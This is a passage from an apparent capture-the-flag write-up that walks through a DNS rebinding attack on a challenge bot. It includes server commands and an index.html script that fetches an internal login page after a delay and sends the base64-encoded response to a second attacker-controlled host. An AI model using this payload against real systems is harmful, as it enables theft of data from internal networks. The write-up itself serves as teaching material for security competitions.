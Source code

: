 Open two Python SimpleHTTPServer running behind `8080/tcp` and `8888/tcp`, for `h4ck3rman` and `h4ck3rboi` respectively.

```
# python -m SimpleHTTPServer 8080
# python -m SimpleHTTPServer 8888
```

Save the following file at the same location as `h4ck3rman`.
<div class="filename"><span>index.html</span></div>

```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://h4ck3rman.ddns.net:8080/login");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://h4ck3rboi.ddns.net:8888/hello.txt?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send();
}, 120000);
</script>
```

Make a request for the file through the bot.

![d2a47eed.png](/assets/images/posts/bsidestlv-web/ca56cc2d.png)

Verify the two requests are coming in through `8080/tcp`.

![27defcf5.png](/assets/images/posts/bsidestlv-web/f5c693ea.png)

Change the IP address mapped to `h4ck3rman` to `192.168.20.100` at once. Two minutes later, `h4ck3rboi` listening at `8888/tcp`, received the XHR response.

![648d5f08.png](/assets/images/posts/bsidestlv-web/fbc2f215.png)

